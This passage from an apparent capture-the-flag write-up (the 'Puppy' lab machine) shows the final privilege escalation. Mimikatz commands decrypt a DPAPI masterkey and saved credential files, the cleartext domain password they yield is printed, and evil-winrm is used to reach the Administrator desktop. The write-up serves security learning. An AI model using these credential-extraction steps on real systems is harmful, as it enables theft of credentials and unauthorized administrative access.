    MasterKey: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:40:36 AM
    Modified: 3/8/2025 7:40:36 AM
   =================================================================================================

...<truncated>...

╔══════════╣ Checking for DPAPI Credential Files
╚  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data
    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================

    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data
    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
   =================================================================================================
```

With the metasploit shell giving a stable mimikatz experience, I can use the identified masterkey file and steph.cooper's password to show the masterkey in clear text.

## Cracking cached credentials

```sh
mimikatz # dpapi::masterkey /in:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:"ChefSteph2025!" /protected
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {556a2412-1275-4ccf-b721-e6a0b4f90407}
  dwFlags            : 00000000 - 0
  dwMasterKeyLen     : 00000088 - 136
  dwBackupKeyLen     : 00000068 - 104
  dwCredHistLen      : 00000000 - 0
  dwDomainKeyLen     : 00000174 - 372
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : b23f3121344180480064e02b82150b9a
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : fb531b9368acdcf185c7f1e3f8d88318fe24ad0704732ef232fb626a50bcb897ecfdebf0982651eeaef634650c38cc3870e866f2b3ae02253946c2d2d9b883fe1fc0521f31606ad3f7cb9055281145af975fc142520a0187c8a155c884d46d73e2a7aa35d5ef0f81

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 820779384e02113e2f0fcd4e73ddb332
    rounds           : 00004650 - 18000
    algHash          : 00008009 - 32777 (CALG_HMAC)
    algCrypt         : 00006603 - 26115 (CALG_3DES)
    pbKey            : 27b10adc59892b80c774c4b7408c217db84b8a0b69b3b030b46bc00ec6043147dde0989c615265560d0de3efe2c2457e8959dd4bfcd973926c437a18a577a32da0ede777dd1fe5d0

[domainkey]
  **DOMAINKEY**
    dwVersion        : 00000002 - 2
    dwSecretLen      : 00000100 - 256
    dwAccesscheckLen : 00000058 - 88
    guidMasterKey    : {3ec516f3-8016-4236-bacf-b9a90ea50992}
    pbSecret         : 48c6dee438ddf25fb827cba81d28ade3e7b50472486cedbcbb0b7247197643bb64e9efe38e5a91392c43a10507737ee38d5b67e1255da2e0df9b9da4cd94f656178ee80d03aa30e5101d7d41bce7f414e9186e32ecff06b86c8df35b1b3682cdf38c967b5980d7909264f1f1f1fae8bfa63074b40483b1fcbf2bfd662786841470be9be9e204eeaf449619a99ced6379f74c3c569f7c2759f7b774c5f07da8b570a39e933d9ba7b13224df5a94d67cdf451622f6682ec6cebfc56a6ce5310e44e5002793addbd93fdd3099e9e68214f1c0cfabe4425514b171d02050e0193313ecf4273b0540fe1115533148bf269ecc95580ad5c21e8a9025fe0673e5ab3238
    pbAccesscheck    : 99db4e12dadb294b01fd2f6966463c541668845f73c9e2da25645258023bb6c8f580c8c03c93190c34633fef444fc426fb41e1b089756f8472793c4d46e89374864281312f72394e6d9afc5ebfa2c71cf5895c8962849aa4


[masterkey] with password: ChefSteph2025! (protected user)
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701

[backupkey] without DPAPI_SYSTEM: 
  key : 1a943a912fa315c7f9eced48870b613d9e75b467d13d618bbad9262ef3f2c567
  sha1: 469928729f9405d7ba46a22de53071b2e1d81fb9
```


Using the masterkey, I was able to use mimikatz dpapi::cred functionality to decrypt the two identified credential files.

```sh
dpapi::cred /in:"C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 /unprotect
dpapi::cred /in:"C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84 /unprotect
```

The Local directory credential showed a saved domain_password for puppy.htb for user steph.cooper_adm!

```log
Decrypting Credential:
 * using CryptUnprotectData API
 * volatile cache: GUID:{556a2412-1275-4ccf-b721-e6a0b4f90407};KeyHash:3c3cf2061dd9d45000e9e6b49e37c7016e98e701;Key:available
 * masterkey     : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000c8 - 200
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 3/8/2025 3:54:29 PM
  unkFlagsOrSize : 00000030 - 48
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0
```

Add our new piece of candy.


```python
passwords.append("FivethChipOnItsWay2025!")
```

# Elevating to Administrator

Using our switch-psuser script in our metasploit shell, we can see all kinds of new permissions but the shell is kinda bad. 

```sh
PS C:\Users\steph.cooper\Downloads> switch-psuser steph.cooper_adm
switch-psuser steph.cooper_adm
[localhost]: PS C:\Users\steph.cooper_adm\Documents> whoami /all
whoami /all

USER INFORMATION
----------------

User Name              SID                                           
====================== ==============================================
puppy\steph.cooper_adm S-1-5-21-1487982659-1829050783-2281216199-1111


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                                     
=========================================== ================ ============ ===============================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                      Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity  Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                                 


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled 
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled 
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Enabled 
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Enabled 
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled 
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Enabled 
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled 
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled 
SeImpersonatePrivilege                    Impersonate a client after authentication                          Disabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Instead using evil-winrm one last time, we get a fully interactive shell and I am able to simply browse to the Administrator/Desktop folder and grab the root.txt

```sh
 evil-winrm -i puppy.htb puppy.htb -u "steph.cooper_adm" -p 'FivethChipOnItsWay2025!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> cd ..
*Evil-WinRM* PS C:\Users\steph.cooper_adm> dir


    Directory: C:\Users\steph.cooper_adm


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---          5/8/2021   1:20 AM                Desktop
d-r---         5/18/2025   3:19 PM                Documents
d-r---          5/8/2021   1:20 AM                Downloads
d-r---          5/8/2021   1:20 AM                Favorites
d-r---          5/8/2021   1:20 AM                Links
d-r---          5/8/2021   1:20 AM                Music
d-r---          5/8/2021   1:20 AM                Pictures
d-----          5/8/2021   1:20 AM                Saved Games
d-r---          5/8/2021   1:20 AM                Videos


*Evil-WinRM* PS C:\Users\steph.cooper_adm> cd Desktop
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Desktop> dir
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Desktop> cd ../../
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/3/2025   8:26 AM                adam.silver
d-----         3/11/2025   9:14 PM                Administrator
d-----          3/8/2025   8:52 AM                ant.edwards
d-r---         2/19/2025  11:34 AM                Public
d-----          3/8/2025   7:40 AM                steph.cooper
d-----         5/18/2025   3:19 PM                steph.cooper_adm


*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         2/19/2025  11:34 AM                3D Objects
d-r---         2/19/2025  11:34 AM                Contacts
d-r---         5/12/2025   7:34 PM                Desktop
d-r---          3/9/2025   8:22 PM                Documents
d-r---         3/23/2025  12:13 AM                Downloads
d-r---         2/19/2025  11:34 AM                Favorites
d-r---         2/19/2025  11:34 AM                Links
d-r---         2/19/2025  11:34 AM                Music
d-r---         2/19/2025  11:34 AM                Pictures
d-r---         2/19/2025  11:34 AM                Saved Games
d-r---         2/19/2025  11:34 AM                Searches
d-r---         2/19/2025  11:34 AM                Videos


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/18/2025   2:32 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
<redacted>
```
